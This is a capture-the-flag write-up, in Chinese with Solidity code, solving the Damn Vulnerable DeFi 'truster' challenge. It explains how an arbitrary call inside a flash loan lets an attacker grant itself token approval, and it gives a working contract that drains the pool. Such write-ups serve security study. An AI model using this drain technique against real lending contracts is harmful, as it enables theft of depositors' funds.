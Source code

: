 # Damn Vulnerable DeFi v4 - truster

- https://www.damnvulnerabledefi.xyz/challenges/truster/
- source code in https://github.com/wiasliaw/wiasliaw-ctf

## Check Condition

只能發送一筆交易：

```solidity
assertEq(vm.getNonce(player), 1, "Player executed more than one tx");
```

需要抽走 pool 的資金，並轉移至 recovery：

```solidity
assertEq(token.balanceOf(address(pool)), 0, "Pool still has tokens");

assertEq(
    token.balanceOf(recovery),
    TOKENS_IN_POOL,
    "Not enough tokens in recovery account"
);
```

## Break

主要原因是 arbitrary call：

```solidity
target.functionCall(data);
```

可以利用來設定 token approval，之後就能將資金轉出

## Solution

```solidity
contract Trigger {
    constructor(
        DamnValuableToken token,
        TrusterLenderPool pool,
        address recovery
    ) {
        // arbitary call and set approval
        pool.flashLoan(
            0,
            address(this),
            address(token),
            abi.encodeCall(IERC20.approve, (address(this), type(uint256).max))
        );
        // drain pool
        token.transferFrom(address(pool), address(this), 1_000_000e18);
        // transfer to recovery
        token.transfer(recovery, 1_000_000e18);
    }
}

// hack
Trigger instance = new Trigger(token, pool, recovery);
```
